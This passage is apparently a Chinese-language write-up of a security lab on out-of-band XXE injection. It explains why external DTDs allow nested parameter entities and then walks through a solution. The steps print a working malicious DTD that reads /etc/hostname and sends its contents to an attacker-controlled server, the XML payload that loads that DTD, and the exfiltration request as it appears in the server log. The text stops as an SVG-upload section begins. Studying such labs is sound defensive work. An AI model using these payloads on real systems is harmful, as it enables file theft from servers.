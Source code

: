   ```
  <!-- 合法加载外部DTD -->
  <!DOCTYPE foo SYSTEM "http://attacker.com/exploit.dtd">
  ```

  **原因**：

  - 外部DTD的解析规则更宽松，允许参数实体的嵌套和动态计算。

#### 三、题解

##### **步骤1：准备恶意DTD文件**

在攻击者服务器（如Burp Collaborator或自己搭建的HTTP服务）上托管一个恶意DTD文件（如`exploit.dtd`），内容如下：

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % oob "<!ENTITY &#x25; exfil SYSTEM 'http://YOUR-SERVER/?leak=%file;'>">
%oob;
%exfil;
```

**关键点**：

- `%file`：读取目标服务器的 `/etc/hostname`。
- `%oob`：动态构造一个参数实体 `%exfil`，将文件内容拼接到攻击者URL。
- `%`：是 `%` 的HTML编码，避免XML解析冲突。

##### **步骤2：构造XXE Payload**

在提交的XML中引用外部DTD：

```
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://YOUR-SERVER/exploit.dtd">
  %xxe;
]>
<stockCheck><productId>1</productId></stockCheck>
```

**作用**：

1. 加载外部DTD（`exploit.dtd`）。
2. 触发DTD中的参数实体，读取文件并外传数据。

##### **步骤3：捕获外带数据**

检查攻击者服务器的访问日志（或Burp Collaborator），会收到类似请求：

```
http://YOUR-SERVER/?leak=webserver-hostname
```

参数 `leak` 的值即为 `/etc/hostname` 的内容。

### 5. SVG | 内联DTD

**目标**：

	通过上传SVG图片触发XXE，外带 `/etc/hostname` 内容。
